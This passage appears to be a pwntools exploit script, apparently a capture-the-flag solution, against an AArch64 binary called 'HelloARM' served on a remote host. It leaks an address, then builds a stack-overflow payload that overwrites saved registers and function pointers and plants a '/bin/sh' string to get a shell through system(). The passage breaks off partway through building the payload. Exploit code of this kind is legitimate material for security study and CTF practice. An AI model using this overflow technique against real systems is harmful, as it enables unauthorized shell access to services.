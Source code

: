 

```python
from pwn import *
import sys
context.log_level = 'debug'
context.arch = 'aarch64'
Debug = True

elf = ELF('./HelloARM', checksec=False)
libc = ELF("./lib/libc.so.6", checksec=False)

offset = libc.functions['system'].address - libc.functions['write'].address
write_addr = elf.got["write"]


def get_sh(other_libc=null):
    return remote('10.104.255.210', 7777)
    # global libc
    # if args['REMOTE']:
    #     if other_libc is not null:
    #         libc = ELF("./", checksec = False)
    #     return remote('10.104.255.210', 7777)
    # elif Debug:
    #     sh = process(["qemu-aarch64", "-g", "2333", "-L", "./", "./HelloARM"])
    #     log.info('Please use GDB remote!(Enter to continue)')
    #     raw_input()
    #     return sh
    # else :
    #     return process(["qemu-aarch64", "-L", "./", "./HelloARM"])


conn = get_sh()
conn.recvline()
bb = conn.recvline()
hex_magic = bb[15:-1].decode('utf-8')
addr_magic = int(hex_magic, 16)

guess_fd = 3
flag_len = 0x20*8 - 8

conn.recv()
conn.send('/bin/sh\0_______')
conn.recvuntil('Set your message:')
payload = ('\0' * 0x100).encode()  # 填充

payload += p64(addr_magic - 0x10)  # x29
payload += p64(0x0000000000400AD0)  # x30 for ret to __libc

# addr_magic-0x10 for w
payload += p64(0x0000000000400730)  # set to write func pointer
# addr_magic-0x08 for r
payload += p64(0x0000000000400760)  # set to read func pointer
# addr_magic

payload += p64(0)  # addr_magic for x19
payload += p64(0)  # addr_magic + 0x8 for system() address
# addr_magic + 0x10 for arg 0
a1 = '/bin/sh\0'.encode()
payload += a1
payload += b'\0' * ((0x20-2)*8 - len(a1))

# x29
payload += p64(addr_magic - 0x10)
# x30
```